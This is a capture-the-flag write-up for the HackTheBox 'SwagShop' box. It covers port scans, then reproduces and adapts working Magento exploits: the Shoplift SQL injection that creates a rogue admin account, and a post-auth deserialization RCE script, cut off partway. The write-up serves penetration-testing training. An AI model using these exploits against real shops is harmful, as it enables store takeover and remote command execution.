

# SwagShop

## Overview

This was a fairly easy box with cves and simple vi sudo exploit


**Name -** SwagShop

**Difficulty -** Easy

**OS -** Linux

**Points -** 20

## Information Gathering

### **Port Scan**

Basic Scan

```bash
╭╴root @ …/d/tools/ncat-portable-5.59BETA1
╰─ rustscan -a 10.129.77.128 --ulimit 5000
.----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
| {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
| .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
`-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
The Modern Day Port Scanner.
________________________________________
: https://discord.gg/GFrQsGy           :
: https://github.com/RustScan/RustScan :
 --------------------------------------
Nmap? More like slowmap.🐢

[~] The config file is expected to be at "/root/.rustscan.toml"
[~] Automatically increasing ulimit value to 5000.
Open 10.129.77.128:22
Open 10.129.77.128:80
[~] Starting Script(s)
[>] Script to be run Some("nmap -vvv -p {{port}} {{ip}}")

[~] Starting Nmap 7.93 ( https://nmap.org ) at 2023-06-20 21:06 +06
Initiating Ping Scan at 21:06
Scanning 10.129.77.128 [4 ports]
Completed Ping Scan at 21:06, 0.34s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 21:06
Completed Parallel DNS resolution of 1 host. at 21:06, 1.24s elapsed
DNS resolution of 1 IPs took 1.24s. Mode: Async [#: 1, OK: 0, NX: 1, DR: 0, SF: 0, TR: 1, CN: 0]
Initiating SYN Stealth Scan at 21:06
Scanning 10.129.77.128 [2 ports]
Discovered open port 80/tcp on 10.129.77.128
Discovered open port 22/tcp on 10.129.77.128
Completed SYN Stealth Scan at 21:06, 0.18s elapsed (2 total ports)
Nmap scan report for 10.129.77.128
Host is up, received reset ttl 62 (0.18s latency).
Scanned at 2023-06-20 21:06:49 +06 for 0s

PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 62
80/tcp open  http    syn-ack ttl 62

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 1.97 seconds
           Raw packets sent: 6 (240B) | Rcvd: 3 (128B)
```

Version Scan

```bash
╭╴root @ …/d/tools/ncat-portable-5.59BETA1 took 19s
╰─ nmap 10.129.77.128 -p 22,80 -sC -sV --script vuln
Starting Nmap 7.93 ( https://nmap.org ) at 2023-06-20 21:08 +06
Nmap scan report for 10.129.77.128
Host is up (0.095s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| vulners:
|   cpe:/a:openbsd:openssh:7.2p2:
|       PACKETSTORM:140070      7.8     https://vulners.com/packetstorm/PACKETSTORM:140070      *EXPLOIT*
|       EXPLOITPACK:5BCA798C6BA71FAE29334297EC0B6A09    7.8     https://vulners.com/exploitpack/EXPLOITPACK:5BCA798C6BA71FAE29334297EC0B6A09    *EXPLOIT*
|       EDB-ID:40888    7.8     https://vulners.com/exploitdb/EDB-ID:40888      *EXPLOIT*
|       CVE-2016-8858   7.8     https://vulners.com/cve/CVE-2016-8858
|       CVE-2016-6515   7.8     https://vulners.com/cve/CVE-2016-6515
|       1337DAY-ID-26494        7.8     https://vulners.com/zdt/1337DAY-ID-26494        *EXPLOIT*
|       SSV:92579       7.5     https://vulners.com/seebug/SSV:92579    *EXPLOIT*
|       CVE-2016-10009  7.5     https://vulners.com/cve/CVE-2016-10009
|       1337DAY-ID-26576        7.5     https://vulners.com/zdt/1337DAY-ID-26576        *EXPLOIT*
|       SSV:92582       7.2     https://vulners.com/seebug/SSV:92582    *EXPLOIT*
|       CVE-2016-10012  7.2     https://vulners.com/cve/CVE-2016-10012
|       CVE-2015-8325   7.2     https://vulners.com/cve/CVE-2015-8325
|       SSV:92580       6.9     https://vulners.com/seebug/SSV:92580    *EXPLOIT*
|       CVE-2016-10010  6.9     https://vulners.com/cve/CVE-2016-10010
|       1337DAY-ID-26577        6.9     https://vulners.com/zdt/1337DAY-ID-26577        *EXPLOIT*
|       EXPLOITPACK:98FE96309F9524B8C84C508837551A19    5.8     https://vulners.com/exploitpack/EXPLOITPACK:98FE96309F9524B8C84C508837551A19    *EXPLOIT*
|       EXPLOITPACK:5330EA02EBDE345BFC9D6DDDD97F9E97    5.8     https://vulners.com/exploitpack/EXPLOITPACK:5330EA02EBDE345BFC9D6DDDD97F9E97    *EXPLOIT*
|       EDB-ID:46516    5.8     https://vulners.com/exploitdb/EDB-ID:46516      *EXPLOIT*
|       EDB-ID:46193    5.8     https://vulners.com/exploitdb/EDB-ID:46193      *EXPLOIT*
|       CVE-2019-6111   5.8     https://vulners.com/cve/CVE-2019-6111
|       1337DAY-ID-32328        5.8     https://vulners.com/zdt/1337DAY-ID-32328        *EXPLOIT*
|       1337DAY-ID-32009        5.8     https://vulners.com/zdt/1337DAY-ID-32009        *EXPLOIT*
|       SSV:91041       5.5     https://vulners.com/seebug/SSV:91041    *EXPLOIT*
|       PACKETSTORM:140019      5.5     https://vulners.com/packetstorm/PACKETSTORM:140019      *EXPLOIT*
|       PACKETSTORM:136234      5.5     https://vulners.com/packetstorm/PACKETSTORM:136234      *EXPLOIT*
|       EXPLOITPACK:F92411A645D85F05BDBD274FD222226F    5.5     https://vulners.com/exploitpack/EXPLOITPACK:F92411A645D85F05BDBD274FD222226F    *EXPLOIT*
|       EXPLOITPACK:9F2E746846C3C623A27A441281EAD138    5.5     https://vulners.com/exploitpack/EXPLOITPACK:9F2E746846C3C623A27A441281EAD138    *EXPLOIT*
|       EXPLOITPACK:1902C998CBF9154396911926B4C3B330    5.5     https://vulners.com/exploitpack/EXPLOITPACK:1902C998CBF9154396911926B4C3B330    *EXPLOIT*
|       EDB-ID:40858    5.5     https://vulners.com/exploitdb/EDB-ID:40858      *EXPLOIT*
|       EDB-ID:40119    5.5     https://vulners.com/exploitdb/EDB-ID:40119      *EXPLOIT*
|       EDB-ID:39569    5.5     https://vulners.com/exploitdb/EDB-ID:39569      *EXPLOIT*
|       CVE-2016-3115   5.5     https://vulners.com/cve/CVE-2016-3115
|       SSH_ENUM        5.0     https://vulners.com/canvas/SSH_ENUM     *EXPLOIT*
|       PACKETSTORM:150621      5.0     https://vulners.com/packetstorm/PACKETSTORM:150621      *EXPLOIT*
|       EXPLOITPACK:F957D7E8A0CC1E23C3C649B764E13FB0    5.0     https://vulners.com/exploitpack/EXPLOITPACK:F957D7E8A0CC1E23C3C649B764E13FB0    *EXPLOIT*
|       EXPLOITPACK:EBDBC5685E3276D648B4D14B75563283    5.0     https://vulners.com/exploitpack/EXPLOITPACK:EBDBC5685E3276D648B4D14B75563283    *EXPLOIT*
|       EDB-ID:45939    5.0     https://vulners.com/exploitdb/EDB-ID:45939      *EXPLOIT*
|       EDB-ID:45233    5.0     https://vulners.com/exploitdb/EDB-ID:45233      *EXPLOIT*
|       CVE-2018-15919  5.0     https://vulners.com/cve/CVE-2018-15919
|       CVE-2018-15473  5.0     https://vulners.com/cve/CVE-2018-15473
|       CVE-2017-15906  5.0     https://vulners.com/cve/CVE-2017-15906
|       CVE-2016-10708  5.0     https://vulners.com/cve/CVE-2016-10708
|       1337DAY-ID-31730        5.0     https://vulners.com/zdt/1337DAY-ID-31730        *EXPLOIT*
|       CVE-2021-41617  4.4     https://vulners.com/cve/CVE-2021-41617
|       EXPLOITPACK:802AF3229492E147A5F09C7F2B27C6DF    4.3     https://vulners.com/exploitpack/EXPLOITPACK:802AF3229492E147A5F09C7F2B27C6DF    *EXPLOIT*
|       EXPLOITPACK:5652DDAA7FE452E19AC0DC1CD97BA3EF    4.3     https://vulners.com/exploitpack/EXPLOITPACK:5652DDAA7FE452E19AC0DC1CD97BA3EF    *EXPLOIT*
|       EDB-ID:40136    4.3     https://vulners.com/exploitdb/EDB-ID:40136      *EXPLOIT*
|       EDB-ID:40113    4.3     https://vulners.com/exploitdb/EDB-ID:40113      *EXPLOIT*
|       CVE-2023-29323  4.3     https://vulners.com/cve/CVE-2023-29323
|       CVE-2020-14145  4.3     https://vulners.com/cve/CVE-2020-14145
|       CVE-2016-6210   4.3     https://vulners.com/cve/CVE-2016-6210
|       1337DAY-ID-25440        4.3     https://vulners.com/zdt/1337DAY-ID-25440        *EXPLOIT*
|       1337DAY-ID-25438        4.3     https://vulners.com/zdt/1337DAY-ID-25438        *EXPLOIT*
|       CVE-2019-6110   4.0     https://vulners.com/cve/CVE-2019-6110
|       CVE-2019-6109   4.0     https://vulners.com/cve/CVE-2019-6109
|       CVE-2018-20685  2.6     https://vulners.com/cve/CVE-2018-20685
|       SSV:92581       2.1     https://vulners.com/seebug/SSV:92581    *EXPLOIT*
|       CVE-2016-10011  2.1     https://vulners.com/cve/CVE-2016-10011
|       PACKETSTORM:151227      0.0     https://vulners.com/packetstorm/PACKETSTORM:151227      *EXPLOIT*
|       PACKETSTORM:140261      0.0     https://vulners.com/packetstorm/PACKETSTORM:140261      *EXPLOIT*
|       PACKETSTORM:138006      0.0     https://vulners.com/packetstorm/PACKETSTORM:138006      *EXPLOIT*
|       PACKETSTORM:137942      0.0     https://vulners.com/packetstorm/PACKETSTORM:137942      *EXPLOIT*
|       MSF:AUXILIARY-SCANNER-SSH-SSH_ENUMUSERS-        0.0     https://vulners.com/metasploit/MSF:AUXILIARY-SCANNER-SSH-SSH_ENUMUSERS- *EXPLOIT*
|_      1337DAY-ID-30937        0.0     https://vulners.com/zdt/1337DAY-ID-30937        *EXPLOIT*
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-stored-xss: Couldn't find any stored XSS vulnerabilities.
| http-enum:
|   /app/: Potentially interesting directory w/ listing on 'apache/2.4.18 (ubuntu)'
|   /errors/: Potentially interesting directory w/ listing on 'apache/2.4.18 (ubuntu)'
|   /includes/: Potentially interesting directory w/ listing on 'apache/2.4.18 (ubuntu)'
|_  /lib/: Potentially interesting directory w/ listing on 'apache/2.4.18 (ubuntu)'
| vulners:
|   cpe:/a:apache:http_server:2.4.18:
|       PACKETSTORM:171631      7.5     https://vulners.com/packetstorm/PACKETSTORM:171631      *EXPLOIT*
|       EDB-ID:51193    7.5     https://vulners.com/exploitdb/EDB-ID:51193      *EXPLOIT*
|       CVE-2023-25690  7.5     https://vulners.com/cve/CVE-2023-25690
|       CVE-2022-31813  7.5     https://vulners.com/cve/CVE-2022-31813
|       CVE-2022-23943  7.5     https://vulners.com/cve/CVE-2022-23943
|       CVE-2022-22720  7.5     https://vulners.com/cve/CVE-2022-22720
|       CVE-2021-44790  7.5     https://vulners.com/cve/CVE-2021-44790
|       CVE-2021-39275  7.5     https://vulners.com/cve/CVE-2021-39275
|       CVE-2021-26691  7.5     https://vulners.com/cve/CVE-2021-26691
|       CVE-2017-7679   7.5     https://vulners.com/cve/CVE-2017-7679
|       CVE-2017-3169   7.5     https://vulners.com/cve/CVE-2017-3169
|       CVE-2017-3167   7.5     https://vulners.com/cve/CVE-2017-3167
|       CNVD-2022-73123 7.5     https://vulners.com/cnvd/CNVD-2022-73123
|       CNVD-2022-03225 7.5     https://vulners.com/cnvd/CNVD-2022-03225
|       CNVD-2021-102386        7.5     https://vulners.com/cnvd/CNVD-2021-102386
|       5C1BB960-90C1-5EBF-9BEF-F58BFFDFEED9    7.5     https://vulners.com/githubexploit/5C1BB960-90C1-5EBF-9BEF-F58BFFDFEED9  *EXPLOIT*
|       1337DAY-ID-38427        7.5     https://vulners.com/zdt/1337DAY-ID-38427        *EXPLOIT*
|       EXPLOITPACK:44C5118F831D55FAF4259C41D8BDA0AB    7.2     https://vulners.com/exploitpack/EXPLOITPACK:44C5118F831D55FAF4259C41D8BDA0AB    *EXPLOIT*
|       EDB-ID:46676    7.2     https://vulners.com/exploitdb/EDB-ID:46676      *EXPLOIT*
|       CVE-2019-0211   7.2     https://vulners.com/cve/CVE-2019-0211
|       1337DAY-ID-32502        7.2     https://vulners.com/zdt/1337DAY-ID-32502        *EXPLOIT*
|       FDF3DFA1-ED74-5EE2-BF5C-BA752CA34AE8    6.8     https://vulners.com/githubexploit/FDF3DFA1-ED74-5EE2-BF5C-BA752CA34AE8  *EXPLOIT*
|       CVE-2021-40438  6.8     https://vulners.com/cve/CVE-2021-40438
|       CVE-2020-35452  6.8     https://vulners.com/cve/CVE-2020-35452
|       CVE-2018-1312   6.8     https://vulners.com/cve/CVE-2018-1312
|       CVE-2017-15715  6.8     https://vulners.com/cve/CVE-2017-15715
|       CVE-2016-5387   6.8     https://vulners.com/cve/CVE-2016-5387
|       CNVD-2022-03224 6.8     https://vulners.com/cnvd/CNVD-2022-03224
|       8AFB43C5-ABD4-52AD-BB19-24D7884FF2A2    6.8     https://vulners.com/githubexploit/8AFB43C5-ABD4-52AD-BB19-24D7884FF2A2  *EXPLOIT*
|       4810E2D9-AC5F-5B08-BFB3-DDAFA2F63332    6.8     https://vulners.com/githubexploit/4810E2D9-AC5F-5B08-BFB3-DDAFA2F63332  *EXPLOIT*
|       4373C92A-2755-5538-9C91-0469C995AA9B    6.8     https://vulners.com/githubexploit/4373C92A-2755-5538-9C91-0469C995AA9B  *EXPLOIT*
|       0095E929-7573-5E4A-A7FA-F6598A35E8DE    6.8     https://vulners.com/githubexploit/0095E929-7573-5E4A-A7FA-F6598A35E8DE  *EXPLOIT*
|       CVE-2022-28615  6.4     https://vulners.com/cve/CVE-2022-28615
|       CVE-2021-44224  6.4     https://vulners.com/cve/CVE-2021-44224
|       CVE-2019-10082  6.4     https://vulners.com/cve/CVE-2019-10082
|       CVE-2017-9788   6.4     https://vulners.com/cve/CVE-2017-9788
|       CVE-2019-0217   6.0     https://vulners.com/cve/CVE-2019-0217
|       CVE-2022-22721  5.8     https://vulners.com/cve/CVE-2022-22721
|       CVE-2020-1927   5.8     https://vulners.com/cve/CVE-2020-1927
|       CVE-2019-10098  5.8     https://vulners.com/cve/CVE-2019-10098
|       1337DAY-ID-33577        5.8     https://vulners.com/zdt/1337DAY-ID-33577        *EXPLOIT*
|       CVE-2022-36760  5.1     https://vulners.com/cve/CVE-2022-36760
|       SSV:96537       5.0     https://vulners.com/seebug/SSV:96537    *EXPLOIT*
|       EXPLOITPACK:C8C256BE0BFF5FE1C0405CB0AA9C075D    5.0     https://vulners.com/exploitpack/EXPLOITPACK:C8C256BE0BFF5FE1C0405CB0AA9C075D    *EXPLOIT*
|       EXPLOITPACK:2666FB0676B4B582D689921651A30355    5.0     https://vulners.com/exploitpack/EXPLOITPACK:2666FB0676B4B582D689921651A30355    *EXPLOIT*
|       EDB-ID:42745    5.0     https://vulners.com/exploitdb/EDB-ID:42745      *EXPLOIT*
|       EDB-ID:40909    5.0     https://vulners.com/exploitdb/EDB-ID:40909      *EXPLOIT*
|       CVE-2022-37436  5.0     https://vulners.com/cve/CVE-2022-37436
|       CVE-2022-30556  5.0     https://vulners.com/cve/CVE-2022-30556
|       CVE-2022-29404  5.0     https://vulners.com/cve/CVE-2022-29404
|       CVE-2022-28614  5.0     https://vulners.com/cve/CVE-2022-28614
|       CVE-2022-26377  5.0     https://vulners.com/cve/CVE-2022-26377
|       CVE-2022-22719  5.0     https://vulners.com/cve/CVE-2022-22719
|       CVE-2021-34798  5.0     https://vulners.com/cve/CVE-2021-34798
|       CVE-2021-33193  5.0     https://vulners.com/cve/CVE-2021-33193
|       CVE-2021-26690  5.0     https://vulners.com/cve/CVE-2021-26690
|       CVE-2020-1934   5.0     https://vulners.com/cve/CVE-2020-1934
|       CVE-2019-17567  5.0     https://vulners.com/cve/CVE-2019-17567
|       CVE-2019-0220   5.0     https://vulners.com/cve/CVE-2019-0220
|       CVE-2019-0196   5.0     https://vulners.com/cve/CVE-2019-0196
|       CVE-2018-17199  5.0     https://vulners.com/cve/CVE-2018-17199
|       CVE-2018-17189  5.0     https://vulners.com/cve/CVE-2018-17189
|       CVE-2018-1333   5.0     https://vulners.com/cve/CVE-2018-1333
|       CVE-2018-1303   5.0     https://vulners.com/cve/CVE-2018-1303
|       CVE-2017-9798   5.0     https://vulners.com/cve/CVE-2017-9798
|       CVE-2017-15710  5.0     https://vulners.com/cve/CVE-2017-15710
|       CVE-2016-8743   5.0     https://vulners.com/cve/CVE-2016-8743
|       CVE-2016-8740   5.0     https://vulners.com/cve/CVE-2016-8740
|       CVE-2016-4979   5.0     https://vulners.com/cve/CVE-2016-4979
|       CVE-2006-20001  5.0     https://vulners.com/cve/CVE-2006-20001
|       CNVD-2022-73122 5.0     https://vulners.com/cnvd/CNVD-2022-73122
|       CNVD-2022-53584 5.0     https://vulners.com/cnvd/CNVD-2022-53584
|       CNVD-2022-53582 5.0     https://vulners.com/cnvd/CNVD-2022-53582
|       CNVD-2022-03223 5.0     https://vulners.com/cnvd/CNVD-2022-03223
|       1337DAY-ID-28573        5.0     https://vulners.com/zdt/1337DAY-ID-28573        *EXPLOIT*
|       CVE-2020-11985  4.3     https://vulners.com/cve/CVE-2020-11985
|       CVE-2019-10092  4.3     https://vulners.com/cve/CVE-2019-10092
|       CVE-2018-1302   4.3     https://vulners.com/cve/CVE-2018-1302
|       CVE-2018-1301   4.3     https://vulners.com/cve/CVE-2018-1301
|       CVE-2018-11763  4.3     https://vulners.com/cve/CVE-2018-11763
|       CVE-2016-4975   4.3     https://vulners.com/cve/CVE-2016-4975
|       CVE-2016-1546   4.3     https://vulners.com/cve/CVE-2016-1546
|       4013EC74-B3C1-5D95-938A-54197A58586D    4.3     https://vulners.com/githubexploit/4013EC74-B3C1-5D95-938A-54197A58586D  *EXPLOIT*
|       1337DAY-ID-33575        4.3     https://vulners.com/zdt/1337DAY-ID-33575        *EXPLOIT*
|       CVE-2018-1283   3.5     https://vulners.com/cve/CVE-2018-1283
|       CVE-2016-8612   3.3     https://vulners.com/cve/CVE-2016-8612
|_      PACKETSTORM:152441      0.0     https://vulners.com/packetstorm/PACKETSTORM:152441      *EXPLOIT*
|_http-csrf: Couldn't find any CSRF vulnerabilities.
|_http-dombased-xss: Couldn't find any DOM based XSS.
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 332.60 seconds
```

### **HTTP Enumeration**

Visiting the website gives us the following



So, this is a magento website. I got several exploit for the version. Some are unauthenticated and some authenticated. I got the following CVE-2015-1397 magento shoplift exploit to add admin user

```markdown
##################################################################################################
#Exploit Title : Magento Shoplift exploit (SUPEE-5344)
#Author : Manish Kishan Tanwar AKA error1046
#Date : 25/08/2015
#Love to : zero cool,Team indishell,Mannu,Viki,Hardeep Singh,Jagriti,Kishan Singh and ritu rathi
#Debugged At : Indishell Lab(originally developed by joren)
##################################################################################################

////////////////////////
/// Overview:
////////////////////////

Magento shoplift bug originally discovered by CheckPoint team (http://blog.checkpoint.com/2015/04/20/analyzing-magento-vulnerability/)
This python script developed by joren but it was having some bug because of which it was not working properly.
If magento version is vulnerable, this script will create admin account with username forme and password forme

////////////////
/// POC ////
///////////////
Exploit script starts here
///////////////////
#Thanks to

# Zero cool, code breaker ICA, Team indishell, my father , rr mam, jagriti and DON

import requests
import base64
import sys

target = "http://target.com/"

if not target.startswith("http"):
target = "http://" + target

if target.endswith("/"):
target = target[:-1]

target_url = target + "/admin/Cms_Wysiwyg/directive/index/"

q="""
SET @SALT = 'rp';
SET @PASS = CONCAT(MD5(CONCAT( @SALT , '{password}') ), CONCAT(':', @SALT ));
SELECT @EXTRA := MAX(extra) FROM admin_user WHERE extra IS NOT NULL;
INSERT INTO `admin_user` (`firstname`, `lastname`,`email`,`username`,`password`,`created`,`lognum`,`reload_acl_flag`,`is_active`,`extra`,`rp_token`,`rp_token_created_at`) VALUES ('Firstname','Lastname','email@example.com','{username}',@PASS,NOW(),0,0,1,@EXTRA,NULL, NOW());
INSERT INTO `admin_role` (parent_id,tree_level,sort_order,role_type,user_id,role_name) VALUES (1,2,0,'U',(SELECT user_id FROM admin_user WHERE username = '{username}'),'Firstname');
"""

query = q.replace("\n", "").format(username="forme", password="forme")
pfilter = "popularity[from]=0&popularity[to]=3&popularity[field_expr]=0);{0}".format(query)

# e3tibG9jayB0eXBlPUFkbWluaHRtbC9yZXBvcnRfc2VhcmNoX2dyaWQgb3V0cHV0PWdldENzdkZpbGV9fQ decoded is{{block type=Adminhtml/report_search_grid output=getCsvFile}}

r = requests.post(target_url,
data={"\_\_\_directive": "e3tibG9jayB0eXBlPUFkbWluaHRtbC9yZXBvcnRfc2VhcmNoX2dyaWQgb3V0cHV0PWdldENzdkZpbGV9fQ",
"filter": base64.b64encode(pfilter),
"forwarded": 1})
if r.ok:
print "WORKED"
print "Check {0}/admin with creds forme:forme".format(target)
else:
print "DID NOT WORK"

/////////////////
exploit code ends here

                             --==[[ Greetz To ]]==--

############################################################################################
#Guru ji zero ,code breaker ica, root_devil, google_warrior,INX_r0ot,Darkwolf indishell,Baba,
#Silent poison India,Magnum sniper,ethicalnoob Indishell,Reborn India,L0rd Crus4d3r,cool toad,
#Hackuin,Alicks,mike waals,Suriya Prakash, cyber gladiator,Cyber Ace,Golden boy INDIA,
#Ketan Singh,AR AR,saad abbasi,Minhal Mehdi ,Raj bhai ji ,Hacking queen,lovetherisk,Bikash Dash
#############################################################################################
--==[[Love to]]==--

# My Father ,my Ex Teacher,cold fire hacker,Mannu, ViKi ,Ashu bhai ji,Soldier Of God, Bhuppi,

#Mohit,Ffe,Ashish,Shardhanand,Budhaoo,Jagriti,Salty and Don(Deepika kaushik)
--==[[Special Fuck goes to]]==--
<3 suriya Cyber Tyson <3
```

So, I edited the file for my usage

```python
import requests
import base64
import sys

target = "http://swagshop.htb/"

if not target.startswith("http"):
    target = "http://" + target

if target.endswith("/"):
    target = target[:-1]

target_url = target + "/index.php/admin/Cms_Wysiwyg/directive/index/"

q="""
SET @SALT = 'rp';
SET @PASS = CONCAT(MD5(CONCAT( @SALT , '{password}') ), CONCAT(':', @SALT ));
SELECT @EXTRA := MAX(extra) FROM admin_user WHERE extra IS NOT NULL;
INSERT INTO `admin_user` (`firstname`, `lastname`,`email`,`username`,`password`,`created`,`lognum`,`reload_acl_flag`,`is_active`,`extra`,`rp_token`,`rp_token_created_at`) VALUES ('Firstname','Lastname','email@example.com','{username}',@PASS,NOW(),0,0,1,@EXTRA,NULL, NOW());
INSERT INTO `admin_role` (parent_id,tree_level,sort_order,role_type,user_id,role_name) VALUES (1,2,0,'U',(SELECT user_id FROM admin_user WHERE username = '{username}'),'Firstname');
"""

query = q.replace("\n", "").format(username="forme", password="forme")
pfilter = "popularity[from]=0&popularity[to]=3&popularity[field_expr]=0);{0}".format(query)

# e3tibG9jayB0eXBlPUFkbWluaHRtbC9yZXBvcnRfc2VhcmNoX2dyaWQgb3V0cHV0PWdldENzdkZpbGV9fQ decoded is{{block type=Adminhtml/report_search_grid output=getCsvFile}}
r = requests.post(target_url,
                  data={"___directive": "e3tibG9jayB0eXBlPUFkbWluaHRtbC9yZXBvcnRfc2VhcmNoX2dyaWQgb3V0cHV0PWdldENzdkZpbGV9fQ",
                        "filter": base64.b64encode(pfilter),
                        "forwarded": 1})
if r.ok:
    print "WORKED"
    print "Check {0}/admin with creds forme:forme".format(target)
else:
    print "DID NOT WORK"
```

It worked


Now I can use an authenticated exploit to get shell. Also, I know the version now 1.9.0.0


The following exploit I found from [exploit-db](https://www.exploit-db.com/exploits/37811)

```python
#!/usr/bin/python
# Exploit Title: Magento CE < 1.9.0.1 Post Auth RCE
# Google Dork: "Powered by Magento"
# Date: 08/18/2015
# Exploit Author: @Ebrietas0 || http://ebrietas0.blogspot.com
# Vendor Homepage: http://magento.com/
# Software Link: https://www.magentocommerce.com/download
# Version: 1.9.0.1 and below
# Tested on: Ubuntu 15
# CVE : none

from hashlib import md5
import sys
import re
import base64
import mechanize

def usage():
    print "Usage: python %s <target> <argument>\nExample: python %s http://localhost \"uname -a\""
    sys.exit()

if len(sys.argv) != 3:
    usage()

# Command-line args
target = sys.argv[1]
arg = sys.argv[2]

# Config.
username = ''
password = ''
php_function = 'system'  # Note: we can only pass 1 argument to the function
install_date = 'Sat, 15 Nov 2014 20:27:57 +0000'  # This needs to be the exact date from /app/etc/local.xml

# POP chain to pivot into call_user_exec
payload = 'O:8:\"Zend_Log\":1:{s:11:\"\00*\00_writers\";a:2:{i:0;O:20:\"Zend_Log_Writer_Mail\":4:{s:16:' \
          '\"\00*\00_eventsToMail\";a:3:{i:0;s:11:\"EXTERMINATE\";i:1;s:12:\"EXTERMINATE!\";i:2;s:15:\"' \
          'EXTERMINATE!!!!\";}s:22:\"\00*\00_subjectPrependText\";N;s:10:\"\00*\00_layout\";O:23:\"'     \
          'Zend_Config_Writer_Yaml\":3:{s:15:\"\00*\00_yamlEncoder\";s:%d:\"%s\";s:17:\"\00*\00'     \
          '_loadedSection\";N;s:10:\"\00*\00_config\";O:13:\"Varien_Object\":1:{s:8:\"\00*\00_data\"' \
          ';s:%d:\"%s\";}}s:8:\"\00*\00_mail\";O:9:\"Zend_Mail\":0:{}}i:1;i:2;}}' % (len(php_function), php_function,
                                                                                     len(arg), arg)
# Setup the mechanize browser and options
br = mechanize.Browser()
#br.set_proxies({"http": "localhost:8080"})
br.set_handle_robots(False)

request = br.open(target)

br.select_form(nr=0)
br.form.new_control('text', 'login[username]', {'value': username})  # Had to manually add username control.
br.form.fixup()
br['login[username]'] = username
br['login[password]'] = password

br.method = "POST"
request = br.submit()
content = request.read()

url = re.search("ajaxBlockUrl = \'(.*)\'", content)
url = url.group(1)
key = re.search("var FORM_KEY = '(.*)'", content)
key = key.group(1)

request = br.open(url + 'block/tab_orders/period/7d/?isAjax=true', data='isAjax=false&form_key=' + key)
tunnel = re.search("src=\"(.*)\?ga=", request.read())
tunnel = tunnel.group(1)

payload = base64.b64encode(payload)
gh = md5(payload + install_date).hexdigest()

exploit = tunnel + '?ga=' + payload + '&h=' + gh

try:
    request = br.open(exploit)
except (mechanize.HTTPError, mechanize.URLError) as e:
    print e.read()
```

I changed this exploit to match our situation

```python
from hashlib import md5
import sys
import re
import base64
import mechanize

def usage():
    print "Usage: python %s <target> <argument>\nExample: python %s http://localhost \"uname -a\""
    sys.exit()

if len(sys.argv) != 3:
    usage()

# Command-line args
target = sys.argv[1]
arg = sys.argv[2]

# Config.
username = 'forme'
password = 'forme'
php_function = 'system'  # Note: we can only pass 1 argument to the function
install_date = 'Wed, 08 May 2019 07:23:09 +0000'  # This needs to be the exact date from /app/etc/local.xml

# POP chain to pivot into call_user_exec
payload = 'O:8:\"Zend_Log\":1:{s:11:\"\00*\00_writers\";a:2:{i:0;O:20:\"Zend_Log_Writer_Mail\":4:{s:16:' \
          '\"\00*\00_eventsToMail\";a:3:{i:0;s:11:\"EXTERMINATE\";i:1;s:12:\"EXTERMINATE!\";i:2;s:15:\"' \
          'EXTERMINATE!!!!\";}s:22:\"\00*\00_subjectPrependText\";N;s:10:\"\00*\00_layout\";O:23:\"'     \
          'Zend_Config_Writer_Yaml\":3:{s:15:\"\00*\00_yamlEncoder\";s:%d:\"%s\";s:17:\"\00*\00'     \
          '_loadedSection\";N;s:10:\"\00*\00_config\";O:13:\"Varien_Object\":1:{s:8:\"\00*\00_data\"' \
          ';s:%d:\"%s\";}}s:8:\"\00*\00_mail\";O:9:\"Zend_Mail\":0:{}}i:1;i:2;}}' % (len(php_function), php_function,
                                                                                     len(arg), arg)
# Setup the mechanize browser and options
br = mechanize.Browser()
#br.set_proxies({"http": "localhost:8080"})
br.set_handle_robots(False)

request = br.open(target)

br.select_form(nr=0)
# br.form.new_control('text', 'login[username]', {'value': username})  # Had to manually add username control.
br.form.fixup()
br['login[username]'] = username
br['login[password]'] = password

br.method = "POST"
request = br.submit()
content = request.read()

url = re.search("ajaxBlockUrl = \'(.*)\'", content)
url = url.group(1)
key = re.search("var FORM_KEY = '(.*)'", content)
key = key.group(1)

request = br.open(url + 'block/tab_orders/period/7d/?isAjax=true', data='isAjax=false&form_key=' + key)
tunnel = re.search("src=\"(.*)\?ga=", request.read())
tunnel = tunnel.group(1)

